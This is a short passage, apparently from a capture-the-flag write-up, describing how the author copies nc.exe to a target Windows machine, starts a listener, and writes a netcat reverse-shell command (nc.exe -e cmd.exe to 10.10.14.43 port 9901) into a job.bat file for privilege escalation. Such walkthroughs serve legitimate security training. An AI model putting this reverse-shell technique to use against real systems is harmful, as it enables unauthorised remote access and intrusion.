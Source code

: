 ![transfer nc.exe](awang_2.png "transfer nc.exe")

- First, let's start our `nc for listening to the connection`
- Then, put this payload in `job.bat`
```powershell
c:\log-management\nc.exe -e cmd.exe 10.10.14.43 9901
```
![put the payload in job.bat file](tulis.png "put the payload in job.bat file")
